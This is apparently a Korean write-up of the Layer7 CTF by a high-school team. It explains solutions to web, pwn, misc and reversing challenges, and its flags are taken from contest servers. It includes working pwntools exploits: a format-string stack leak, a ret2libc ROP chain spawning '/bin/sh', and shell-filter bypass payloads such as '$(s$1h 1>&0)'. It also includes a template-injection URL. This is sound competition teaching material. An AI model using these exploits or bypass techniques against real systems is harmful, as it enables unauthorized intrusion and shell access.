

# Layer7 CTF write-up



고등부 4위 ```문시우 뚝배기 브레이커 (참고로 뚝배기 == 머리)``` , 윤석찬

## Web

### meow

[http://dm1536803965686.fun25.co.kr:23903/74cdf2ead84d1743/?file=fl$1ag.php](http://dm1536803965686.fun25.co.kr:23903/74cdf2ead84d1743/?file=fl$1ag.php)

fl$1ag.php로 요청을 하게 되면 ```cat "fl$1ag.php"```로 되기 때문에 ```flag.php``` 파일이 읽힌다.  

[*] flag : ```LAYER7{070e260558a03c1494817459ebbc060e}```


### 	url routing

[http://dm1536803965686.fun25.co.kr:23902/5099d288498b4e17/?fl%61g](http://dm1536803965686.fun25.co.kr:23902/5099d288498b4e17/?fl%61g) 

```$_SERVER['REQUEST_URI']```은 URL decoding이 되지 않은 상태로 요청한 URL을 저장하기 때문에 a 를 %61 로 요청하면 필터링을 가볍게 우회하고 ```$_GET['flag']```에 값을 전달하여 플래그를 얻을 수 있다. 

[*] flag : ```LAYER7{4f3a6c9f4b9c36ed3c39b8d3e14aa4fb}```


### msg

[http://dm1536803965686.fun25.co.kr:23908/?msg={{self.\_\_dict\_\_}}](http://dm1536803965686.fun25.co.kr:23908/?msg={{self.__dict__}})

self 에 있는 내용을 \_\_dict__ 로 요청하면 딕셔너리 형으로 self 아래의 Elements 를 볼 수 있다. 

[*] flag : ```LAYER7{e276a535acdda862e3f76e5deec26373}```


## Pwn

### Life game

Bank -> Loan 에서 취약점이 발생한다. ```Integer underflow```를 통해서 돈을 99999보다 많이 요구하는 ```sub_8048DC6()```를 실행할 수 있다.  그리고 ```sub_8048DC6()```에서는 FSB가 발생하여 스택을 읽을 수 있다. 스택에 있는 플래그를 읽어오자.

```python
#!/usr/bin/python
# coding: utf-8

from pwn import *

e = ELF('./life_game')
# p = process(e.path)

# context.log_level = 'debug'

flag = ""
for i in range(100):
    # p = process(e.path)
    p = remote('layer7.kr', 12000)
    p.sendline('5')
    p.sendline('3')
    p.sendline('-349859345')
    p.sendline('3')
    p.sendline('-23872839423')
    p.sendline('5')
    p.sendline('31337')
    p.sendline('%{0}$p'.format(i + 1))

    p.recvuntil('your last one : ')
    data = p.recvuntil('Good Bye~!').replace('Good Bye~!', '')
    print data
    data = data.replace('\n', '').replace('0x', '')
    data = "0" * (8 - len(data)) + data
    data = data.decode('hex')[::-1]
    flag += data
    print data
    print flag

```

[*] flag : ```LAYER7{L1f3..1s..P0k3m0n_or_D1g1m0n..wh4t?}```


### talmoru_party~!

```fges()```로 0x20000 바이트까지 받을 수 있는데 이 때 Overflow가 생긴다.  마땅히 입력받을 수가 없기 때문에 기본적인 ROP로는 풀 수가 없고, Libc base를 leak해서 system 함수를 실행시키면 된다. 

```python
#!/usr/bin/python
# coding: utf-8

from pwn import *
import sys

stdin = 0x0804A060
pr = 0x08048425
pppr = 0x08048849
bss = 0x0804a040 + 0x40
offset = 0x24f00

def main():

    e = ELF("./talmo_party")

    if len(sys.argv) > 1:
        p = process(e.path)
        libc = e.libc

    else:
        p = remote("layer7.kr", 12003)
        libc = ELF("layer7.so.6")

    p.sendline('3')

    payload = "A" * 0x40
    payload += "B" * 4
    payload += p32(e.plt['puts'])
    payload += p32(pr)
    payload += p32(e.got['puts'])

    payload += p32(0x080486E0)

    p.sendline(payload)
    p.recvuntil("Good bye~~!\n")

    puts_got = u32(p.recv(4))
    libc_base = puts_got - libc.symbols['puts']
    system = libc_base + libc.symbols['system']
    binsh = libc_base + next(libc.search('/bin/sh\x00'))

    p.recvuntil("tell me your impression plz!\n")

    payload = "A" * 0x40
    payload += "B" * 4
    payload += p32(system)
    payload += "AAAA"
    payload += p32(binsh)

    p.sendline(payload)

    log.success("puts@got : {0}".format(hex(puts_got)))
    log.success("leaked libc base : {0}".format(hex(libc_base)))
    log.success("system@got : {}".format(hex(system)))
    log.success("/bin/sh : {0}".format(hex(binsh)))

    p.interactive()

if __name__ == '__main__':
    main()

```

[*] flag : ```LAYER7{1_r3411y_H4t3_t41m0_^______^}```


## Misc

### Sanity Check

[*] flag : ```LAYER7{1_h0pE_Y0u_eNj0y_p14yiNg!}```


### Shell program

```sh```가 필터링 되어있지만 $1로 필터링 우회를 할 수 있고 fd를 적당히 지정하면 쉘을 딸 수 있다. 

```python
#!/usr/bin/python
# coding: utf-8

from pwn import *

def main():
    # p = process('./shell_program')
    p = remote('layer7.kr', 12001)

    p.sendline('2')
    p.sendline('$(s$1h 1>&0)')

    p.interactive()

if __name__ == '__main__':
    main()

```

[*] flag : ```LAYER7{Wha4AAa4t_d03$_th1$_ch4r4ct3r_r3tuuuuurn?_$$$}```


### Shell program revenge

$ 를 사용하면 무조건 괄호를 사용하도록 되어있다. 그냥 ```$(vi)```를 하고 ```:! sh```로 우회 가능하다. 

```python
#!/usr/bin/python
# coding: utf-8

from pwn import *

def main():
    p = remote('layer7.kr', 12002)

    p.sendline('2')
    p.sendline('$(vi)')

    p.recvuntil('your command => ping ')
    p.sendline(':! sh 1>&0')

    sleep(2)
    p.interactive()

if __name__ == '__main__':
    main()

```

[*] flag : ```LAYER7{w0W...H0w_t0_th1s_Fuck11111111ng_fi1t3r1ng_by-p4ss!!!!!!!!!???}```


## Rev

### ezbt

```python
#!/usr/bin/env python2

import angr
import string

bytes1 =  "0DFh, 0D1h, 0CFh, 0D4h, 46h, 3Ah, 65h, 55h, 3Dh, 7Dh, 0C8h, 67h, 0BCh, 68h, 0C8h, 68h, 6Fh, 3Fh, 0C8h, 64h, 3Fh, 30h, 48h, 41h, 72h, 0BFh, 75h, 0C8h, 67h, 0F4h, 68h, 48h, 0B9h, 0EEh, 7Ch, 0C8h, 7Fh, 5Ch, 74h, 5Ch, 3Ch, 5Ch, 74h, 3Ch, 5Ch, 74h, 3Ch, 77h, 48h, 0FEh, 0E8h, 67h, 0C8h, 49h, 48h, 0C8h, 0C9h, 62h"

bytes1 = bytes1.replace('h', '')
bytes1 = bytes1.split(', ')

flags = []
for b in bytes1:
    flags.append(int(b, 16))

def main():
    flag = ''

    for f in flags:
        for s in string.printable:
            a = ord(s)
            tmp = a ^ (a >> 1)
            tmp2 = tmp ^ (tmp >> 1)
            if tmp2 == f:
                flag += s
                continue

            elif tmp2 + 0b10000000 == f:
                flag += s
                continue

    print '[*] the flag : {}'.format(flag)

if __name__ == '__main__':
    main()

```

[*] flag : ```LAYER7{D1d_y0u_us3_z3?_Th3n_you_4re_fOoO0Oo0Oo0l_guy_^__^}```
